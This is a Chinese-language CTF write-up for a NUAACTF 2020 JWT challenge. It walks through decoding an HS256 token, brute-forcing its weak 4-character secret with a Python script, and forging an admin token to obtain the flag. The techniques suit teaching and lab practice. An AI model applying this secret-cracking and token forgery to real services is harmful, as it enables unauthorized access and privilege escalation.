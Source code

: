 # NUAACTF(2020)-jwt writeup

### 简单介绍

JWT(JSON Web Token)是一种用于身份认证和授权的开放标准，它通过在网络应用间传递被加密的JSON数据来安全地传输信息使得身份验证和授权变得更加简单和安全，JWT对于渗透测试人员而言可能是一种非常吸引人的攻击途径，因为它们不仅是让你获得无限访问权限的关键而且还被视为隐藏了通往以下特权的途径，例如:特权升级、信息泄露、SQLi、XSS、SSRF、RCE、LFI等。

### 基本结构

JWT的结构由三部分组成，分别是Header、Payload和Signature

```
header.payload.signature

<base64(header)>.<base64(payload)>.<signature>
```

### 解题思路：

打开题目地址，经典登录页面：

![web-2.1](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-2.1.png)

按照题目描述，jwt肯定要注册账号，这里可以尝试登录下，用户名可以枚举的，有admin账号，猜测应该要伪造admin的jwt来获取flag.

注册root账号：
![web-2.2](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-2.2.png)

登录root账号：

![web-2.3](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-2.3.png)

果然这里有JWT，

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InJvb3QifQ.ky8i6QnQs2Sb2X9sbzwpkAhlfTnmwnpfDP7ou8sVnNU
```

先base64解码看下签名算法：
![web-2.7](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-2.7.png)

签名算法：HS256，对称加密的，这里可以尝试伪造下JWT，先获取secert:

尝试爆破密钥，网上有很多JWT的爆破工具，这里我们自己写一个python脚本：

```
import hashlib
import hmac
import base64
import itertools

chars = "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"
before = b"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImhhbmFvIn0"
after = b"r8MVWvxF0V8QVmMYn8dMdfSUBAkc1f5LosyaOHoSPbU"

for combo in itertools.product(chars, repeat=4):
    secret = ''.join(combo).encode()
    sig = base64.urlsafe_b64encode(hmac.new(secret, before, hashlib.sha256).digest()).rstrip(b'=')
    if sig == after:
        print(f"[+] Found key: {secret.decode()}")
        break
```

可以看到这里我们假定的secert位数为四位，为什么为4位呢？下面列举下1-5位密钥爆破需要的时间：

```
密钥位数	总组合数		单线程（20K/s）		多线程（160K/s）	
1 位		  62			0.003 秒				0.0004 秒	
2 位		  3,844		    0.19 秒				0.02 秒	
3 位		  238,328		11.9 秒				1.5 秒	
4 位		  14,776,336	739 秒(~12分)	       92 秒	
5 位		  916,132,832	45,806 秒(~12.7小时)  5,726秒(~1.6小时)	
```

可以看到，单线程的情况下5位比4位多了一个量级😅😅😅，考虑的解题时间，这里就按少于5位进行爆破的

![web-2.6](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-2.6.png)

爆破出的密钥：NuAa

JWT在线构造和解构的平台:

https://jwt.io/

伪造admin用户的JWT：

![web-2.4](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-2.4.png)

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIn0.SYQ-AGwY5XIcxY621ToK8zEgomHE0Bla9tAUWTLxnwA
```

替换root用户的JWT：

![web-2.5](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-2.5.png)

得到flag
